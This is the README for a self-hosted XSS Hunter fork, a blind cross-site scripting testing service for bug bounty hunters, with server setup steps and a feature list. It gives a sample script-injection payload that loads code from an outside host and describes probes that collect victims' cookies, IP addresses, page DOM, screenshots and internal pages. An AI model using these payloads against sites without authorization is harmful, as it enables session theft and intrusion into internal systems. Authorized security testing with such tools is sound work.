 # XSS Hunter Source Code
This is a portable version of the source code running on https://xsshunter.com. It is designed to be easily-installable on any server for security professionals and bug bounty hunters who wish to test for XSS in a much more powerful way. This fork of XSS Hunter has been refactored to be compatible with Python 3 and as such, some dependencies have changed. It is recommended to ensure you're using Python 3+ in your virtual environment.

**If you don't want to set up this software and would rather just start testing, see https://xsshunter.com .**

# Requirements
* A server running (preferably) Ubuntu.
* A [Mailgun](http://www.mailgun.com/) account, for sending out XSS payload fire emails.
* A domain name, preferably something short to keep payload sizes down. Here is a good website for finding two letter domain names: [https://catechgory.com/](https://catechgory.com/). My domain is [xss.ht](xss.ht) for example.
* A wildcard SSL certificate. This is required because XSS Hunter identifies users based off of their sub-domains and they all need to be SSL-enabled. Let's Encrypt now supports wildcard certificates.
    
# Setup
Original setup post: https://thehackerblog.com/xss-hunter-is-now-open-source-heres-how-to-set-it-up/  

**Setting Up DNS**   
The first thing you need to do is set up the DNS for your domain name so it is pointing to the server you’re hosting the software on. Only two records are needed for this:

A record:  
Key: YOURDOMAIN.COM  
Value: SERVER_IP  
CNAME record:  
Key *.YOURDOMAIN.COM  
Value: YOURDOMAIN.COM  
Those two records simply state where your server is located and that all subdomains should point to the same server.  

**Setting Up Dependencies**  
First, we need to install some dependencies for XSS Hunter to work properly. The two dependencies that XSS Hunter has are nginx for the web server and postgres for the data store. Setting these up is fairly easy, we’ll start with nginx:  

`sudo apt-get install nginx`  

After that, install postgres:  

`sudo apt-get install postgresql postgresql-contrib` 

Now we’ll set up a new postgres user for XSS Hunter to use:  

`sudo -i -u postgres`  
`psql template1`  
`CREATE USER xsshunter WITH PASSWORD 'EXAMPLE_PASSWORD';`  
`CREATE DATABASE xsshunter;`  
`\q`  
`exit`  

Now we have all the dependencies installed, let’s now move on to setting up the software itself.  

**Setting Up Source Code**  
Clone the Github repo:  

```git clone https://github.com/mandatoryprogrammer/xsshunter``` 

Now that we’ve cloned a copy of the code, let’s talk about XSS Hunter’s structure. The service is broken into two separate servers, the GUI and the API. This is done so that if necessary the GUI server could be completely replaced with something more powerful without any pain, the same going for the API.  

Let’s start by running the config generation script:  

```./generate_config.py```  

Once you’ve run this script you will now have two new files. One is the config.yaml file which contains all the settings for the XSS Hunter service and the other is the default file for nginx to use. Move the default file into nginx’s configuration folder by running the following command:  

```sudo mv default /etc/nginx/sites-enabled/default```  

You must also ensure that you also have your SSL certificate and key files in the following locations:  

/etc/nginx/ssl/yourdomain.com.crt; # Wildcard SSL certificate  
/etc/nginx/ssl/yourdomain.com.key; # Wildcard SSL key  
(The config generation script will specify the location you should use for these files.)  

Now you need to restart nginx to apply these changes, run the following:  

```sudo service nginx restart```  

Awesome! Nginx is now all set up and ready to go. Let’s move on to the actual XSS Hunter service set up.  

Now let’s start the API server! Run the following commands:  

```sudo apt-get install python-virtualenv python-dev libpq-dev libffi-dev  
cd xsshunter/api/  
virtualenv env  
. env/bin/activate  
pip3 install -r requirements.txt  
./apiserver.py &  
```
The & after the ./apiserver.py command will run the server in the background. It can be terminated by restarting the host or by killing the process manually.  

In this new terminal let’s start the GUI server, run the following commands (in a new terminal):  

```cd xsshunter/gui/  
virtualenv env  
. env/bin/activate  
pip3 install -r requirements.txt  
./guiserver.py &  
```
Congrats! You should now have a working XSS Hunter server. Visit your website to confirm everything is functioning as expected. You can now detach from tmux by typing CTRL+B followed by D.  

# Summary of Functionality
*Upon signing up you will create a special short domain such as `yoursubdomain.xss.ht` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.xss.ht></script>`. XSS Hunter will automatically serve up XSS probes and collect the resulting information when they fire.*

# Features
* **Managed XSS payload fires**: Manage all of your XSS payloads in your XSS Hunter account's control panel.
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an XSS Hunter compatible tool is used) 
* **Full Page Screenshots**: XSS Hunter probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **Markup Report Generation**: Each XSS payload report comes with a pre-generated markdown report. These generated reports are also compatible with other markdown-supporting platforms such as Phabricator for easy bug reporting on company ticketing systems.
* **XSS Payload Fire Email Reports**: XSS payload fires also send out detailed email reports which can be easily forwarded to the appropriate security contacts for easy reporting of critical bugs.
* **Automatic Payload Generation**: XSS Hunter automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of XSS Hunter is the ability to correlated injection attempts with XSS payload fires. By using an [XSS Hunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the XSS Hunter service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after XSS Hunter has done it's thing? XSS Hunter offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **iOS Web Application**: It is also possible to view your XSS payload fires via an iOS web app. Simple navigate to the `/app` path and save the page as a web application to your iPhone's desktop.

# Notable Exploits
* Blind XSS in Tesla's internal servicing tool: https://samcurry.net/cracking-my-windshield-and-earning-10000-on-the-tesla-bug-bounty-program/
* Blind XSS in Spotify's Salesforce integration: https://mhmdiaa.github.io/blind-xss-in-spotify/
* Blind XSS in GoDaddy's support panel: https://thehackerblog.com/poisoning-the-well-compromising-godaddy-customer-support-with-blind-xss/
